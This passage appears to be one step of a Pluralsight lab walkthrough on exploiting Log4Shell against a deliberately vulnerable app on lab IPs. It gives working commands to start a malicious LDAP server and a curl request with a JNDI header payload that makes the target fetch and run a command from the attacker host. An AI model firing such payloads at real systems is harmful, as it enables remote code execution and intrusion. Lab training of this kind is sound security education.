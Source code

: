 ### Setup Malicious LDAP Server and POC

In this challenge, you will be setting up the attacker's infrastructure and sending your first malicious payload to test a Proof of Concept (POC).

1.  Start by swapping to the **Ubuntu Attacker Endpoint**. This can be done by typing `CTRL`, `ALT`, and `Shift` simultaneously and clicking the **Pluralsight** drop down from the top-left.
    
2.  Test network connectivity to the vulnerable application (Remember, a 400 error is expected!):
    
    `curl http://172.31.24.20:8080`
    
3.  Next, you'll need to setup the malicious LDAP server. When you send the payload to the vulnerable app, it will use JNDI to call back to this malicious LDAP server for further instructions. Start with a clean terminal session:
    
    `screen -S ldap`
    
4.  Start the LDAP server:
    
    `sudo docker run --name log4jldapserver -p 1389:1389 -p 8888:8888 oofles/log4shell-ldap-server`
    
    **Note:** You are setting the LDAP server to listen on port **1389** (for LDAP requests) and port **8888** (for the redirected payload commands to be sent over HTTP). 
    
5.  Detach from that session by using the button key combinations of `CTRL + A`, let go, and then press `D`.
    
6.  Now it's time to send the first malicious payload! The vulnerable application is logging the **X-Api-Version** field, so you'll use `curl` to send the payload, changing that field to contain the malicious string:
    
    `curl 172.31.24.20:8080 -H 'X-Api-Version: ${jndi:ldap://172.31.24.10:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZA==}'`
    
    **Note:** The Base64 encoded string translates to: `touch /tmp/pwned`.
    
    **Analysis:** A **Hello World!** response is the method this vulnerable app uses to let you know the request was successful.
    
7.  Check the LDAP server to see if the requests came through successfully:
    
    `screen -r ldap`
    
    **Analysis:** You can see the initial LDAP query come through for `Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZA==`. The server then translates the Base64 payload into a command and passes to a Java class that handles delivery and execution. This payload is then sent to the vulnerable endpoint over port **8888**.
    
8.  Detach from that session by using the button key combinations of `CTRL + A`, let go, and then press `D`.
    
9.  Swap to the **Ubuntu Defender Endpoint**.
    
    `CTRL`, `ALT`, and `Shift`
    
10.  Check the vulnerable application's **/tmp/** directory:
    
    `sudo docker exec vulnapp2 ls /tmp`
    
POC is a success!! However, that wasn't much of an exploit... Before getting into analysis, let's see if we can upgrade the exploit in this next challenge and establish a reverse shell.